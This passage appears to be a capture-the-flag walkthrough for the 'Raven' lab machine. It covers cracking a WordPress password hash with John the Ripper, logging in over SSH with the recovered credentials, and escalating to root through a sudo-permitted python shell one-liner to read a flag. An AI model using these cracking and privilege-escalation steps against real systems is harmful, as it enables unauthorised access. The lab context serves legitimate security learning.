 ```
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 512/512 AVX512BW 16x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pink84           (?)
1g 0:00:00:02 DONE (2021-08-03 00:04) 0.4366g/s 20122p/s 20122c/s 20122C/s tamika1..james03
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```
- John successfully cracked the hash giving use the credentials `steven:pink84`
- We will rely credential reuse and no private ssh key to try get us in via ssh.
```
root@Kali:~# ssh steven@192.168.1.110
steven@192.168.1.110's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug  3 17:10:08 2021 from 192.168.1.90
$ /usr/bin/script -qc /bin/bash /dev/null
steven@target1:~$ 
```
- Now with access we will leverage [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) again to automate any useful information or quick ways privesc.

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                
Matching Defaults entries for steven on raven:                                                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User steven may run the following commands on raven:
    (ALL) NOPASSWD: /usr/bin/python
```
- Seeing that steven can run python as sudo  we head to [GTFOBins](https://gtfobins.github.io/) to help us bypass local security restrictions in misconfigured systems to elevate our privledges.
- If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```
steven@target1:~$ sudo python -c 'import os; os.system("/bin/sh")'
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
- Now with root privledges we can look in roots home direcorty for the flag.
```
# pwd   
/home/steven
# cd /root/     
# ls
flag4.txt
# cat flag4.txt 
______                      

| ___ \                     

| |_/ /__ ___   _____ _ __  

```